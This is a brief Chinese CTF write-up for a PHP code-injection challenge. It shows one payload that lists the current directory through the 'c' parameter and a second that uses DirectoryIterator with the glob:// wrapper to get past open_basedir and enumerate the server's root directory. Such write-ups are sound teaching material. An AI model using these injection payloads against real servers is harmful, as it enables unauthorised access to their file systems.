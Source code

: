这道题一开始还以为和上一题差不多

![image-20241129150755401](./assets/image-20241129150755401.png)

先进行目录查询

```
c=var_export(scandir("./"));exit();
```

注意⚠️ 这道题只有权限查询的当前目录也就是`./`

而无法访问到其他目录的文件，如 / 根目录

> 尝试使用 scandir() 函数来扫描根目录，但由于 open_basedir 限制，这个操作被禁止了。
> open_basedir 是 PHP 的一个安全配置指令，用来限制 PHP 脚本只能访问特定的目录。
> 当前配置只允许访问 /var/www/html/ 目录及其子目录，但不允许访问其他目录。
>
> 原文链接：https://blog.csdn.net/Myon5/article/details/140079942

我们可以尝试用glob协议绕过open_basedir协议

payload:（记得删注释）

```php
c=?><?php $a=new DirectoryIterator("glob:///*");// 创建一个DirectoryIterator对象，遍历根目录
foreach($a as $f)// 遍历每个条目
{
   echo($f->__toString().' ');// 输出条目的名称，并添加一个空格
}
exit(0); // 终止脚本执行
?>
```
